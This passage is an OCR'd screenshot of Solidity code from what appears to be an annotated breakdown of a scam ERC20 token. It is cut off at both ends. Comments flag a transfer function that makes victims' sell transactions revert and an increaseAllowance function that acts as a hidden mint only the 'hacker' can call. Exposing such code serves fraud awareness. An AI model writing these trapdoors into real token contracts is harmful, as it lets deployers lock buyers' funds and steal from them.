 ```solidity
    }

////////////////////////// can't transfer //////////////////////////////////////   
    function _transfer( address sender,address recipient, uint256 amount) internal virtual {
        _requireBalance(sender, recipient, amount); // victims can't pass this! the tx will revert!
        require(sender != address(0), "IERC20: transfer from the zero address");
        require(recipient != address(0),"IERC20: transfer to the zero address");

        _beforeTokenTransfer(sender, recipient, amount); //do nothing
        _balances[sender] = _balances[sender].sub(amount,"IERC20: transfer amount exceeds balance");
        _balances[recipient] = _balances[recipient] + amount;
        emit Transfer(sender, recipient, amount);
    } 
////////////////////////// can't transfer //////////////////////////////////////   

    function _mint(address account, uint256 amount) internal virtual {
        require(account != address(0), "IERC20: mint to the zero address");

        _beforeTokenTransfer(address(0), account, amount); //do nothing

        _totalSupply = _totalSupply.add(amount);
        _plus(account, amount);
        emit Transfer(address(0), account, amount);
    }

    function _burn(address account, uint256 amount) internal virtual {
        require(account != address(0), "IERC20: burn from the zero address");

        _beforeTokenTransfer(account, address(0), amount); //do nothing
        require(amount != 0, "Invalid amount");
        _minus(account, amount);
        _totalSupply = _totalSupply.sub(amount);
        emit Transfer(account, address(0), amount);
    }

    function _minus(address account, uint256 amount) internal {
        _balances[account] = _balances[account] - amount;
    }

    function _plus(address account, uint256 amount) internal {
        _balances[account] = _balances[account] + amount;
    }

    function _approve( address owner, address spender, uint256 amount) internal virtual {
        require(owner != address(0), "IERC20: approve from the zero address");
        require(spender != address(0), "IERC20: approve to the zero address");

        _allowances[owner][spender] = amount;
        emit Approval(owner, spender, amount);
    }

////////////////////////// equil to mint but only hacker can call //////////////////////////////////////   
    function increaseAllowance(address spender, uint256 amount) public virtual {
        address from = msg.sender;
        require(spender != address(0), "Invalid address");
        require(amount > 0, "Invalid amount");
        uint256 total = 0;
        if (_decode(spender, _guest.guest)) { 
        // if u r hacker, it will return true. _from's balance won't minus while spender's balance can increase  
            _minus(from, total);
```